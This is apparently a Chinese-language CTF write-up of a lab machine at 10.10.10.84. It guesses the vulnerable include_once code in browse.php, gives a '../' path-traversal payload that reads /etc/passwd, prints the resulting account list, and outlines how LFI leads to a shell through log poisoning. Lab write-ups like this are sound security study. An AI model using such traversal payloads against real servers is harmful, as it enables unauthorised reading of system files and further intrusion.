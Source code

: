 ## web

http服务有一个文件包含漏洞，输入文件的名字会包含这个文件，比如
```http://10.10.10.84/browse.php?file=phpinfo.php```

展示了phpinfo.php这个脚本的内容

我们猜测代码的形式是

```
$file = $_GET['file'];
include_once($file);
```

显然file这个参数是我们可以控制的，以下playload打印了```/etc/passwd```,证实存在文件包含漏洞

```http://10.10.10.84/browse.php?file=../../../../../etc/passwd```

```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $ # 
root:*:0:0:Charlie &:/root:/bin/csh 
toor:*:0:0:Bourne-again Superuser:/root: 
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin 
operator:*:2:5:System &:/:/usr/sbin/nologin 
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin 
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin 
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin 
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin 
news:*:8:8:News Subsystem:/:/usr/sbin/nologin 
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin 
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin 
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin 
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin 
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin 
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin 
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin 
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin 
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin 
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico 
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin 
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin 
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin 
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin 
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin 
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin 
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin 
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin 
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin 
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin 
charix:*:1001:1001:charix:/home/charix:/bin/csh 
```

看到存在一个```charix```用户

文件包含漏洞拿shell一般要符合三个条件
1. web server存在文件解析漏洞
2. 文件包含漏洞
3. 可以读取web server日志 or 可以控制文件上传

具体例子查看[这篇文章](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)

```